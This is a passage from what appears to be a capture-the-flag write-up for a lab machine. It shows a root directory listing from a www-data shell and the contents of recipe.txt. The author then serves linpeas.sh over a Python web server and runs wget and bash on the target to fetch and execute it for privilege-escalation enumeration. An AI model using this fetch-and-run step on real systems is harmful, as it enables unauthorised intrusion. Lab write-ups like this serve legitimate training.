 ```
drwxr-xr-x   3 root     root      4096 Sep 25  2020 boot
drwxr-xr-x  16 root     root      3560 Sep 28 15:17 dev
drwxr-xr-x  96 root     root      4096 Nov 12  2020 etc
drwxr-xr-x   3 root     root      4096 Nov 12  2020 home
drwxr-xr-x   2 www-data www-data  4096 Nov 12  2020 incidents
lrwxrwxrwx   1 root     root        33 Sep 25  2020 initrd.img -> boot/initrd.img-4.4.0-190-generic
lrwxrwxrwx   1 root     root        33 Sep 25  2020 initrd.img.old -> boot/initrd.img-4.4.0-190-generic
drwxr-xr-x  22 root     root      4096 Sep 25  2020 lib
drwxr-xr-x   2 root     root      4096 Sep 25  2020 lib64
drwx------   2 root     root     16384 Sep 25  2020 lost+found
drwxr-xr-x   2 root     root      4096 Sep 25  2020 media
drwxr-xr-x   2 root     root      4096 Sep 25  2020 mnt
drwxr-xr-x   2 root     root      4096 Sep 25  2020 opt
dr-xr-xr-x 119 root     root         0 Sep 28 15:17 proc
-rw-r--r--   1 www-data www-data   136 Nov 12  2020 recipe.txt
drwx------   4 root     root      4096 Nov 12  2020 root
drwxr-xr-x  25 root     root       900 Sep 28 16:19 run
drwxr-xr-x   2 root     root      4096 Sep 25  2020 sbin
drwxr-xr-x   2 root     root      4096 Nov 12  2020 snap
drwxr-xr-x   3 root     root      4096 Nov 12  2020 srv
dr-xr-xr-x  13 root     root         0 Sep 28 15:17 sys
drwxrwxrwt   7 root     root      4096 Sep 28 16:44 tmp
drwxr-xr-x  10 root     root      4096 Sep 25  2020 usr
drwxr-xr-x   2 root     root      4096 Nov 12  2020 vagrant
drwxr-xr-x  14 root     root      4096 Nov 12  2020 var
lrwxrwxrwx   1 root     root        30 Sep 25  2020 vmlinuz -> boot/vmlinuz-4.4.0-190-generic
lrwxrwxrwx   1 root     root        30 Sep 25  2020 vmlinuz.old -> boot/vmlinuz-4.4.0-190-generic
www-data@startup:/$ cat recipe.txt
cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
www-data@startup:/$ 
```

## Let get linpease 
* ## Opening python server on my system
```
sudo python3 -m http.server 80
```
* ## Download linpeas.sh
```
cd /dev/shm
```
```
wget http://10.17.120.99/linpeas.sh
```
```
bash linpeas.sh
```
<div align="center">
  <img src="" height="200"></img>
</div>
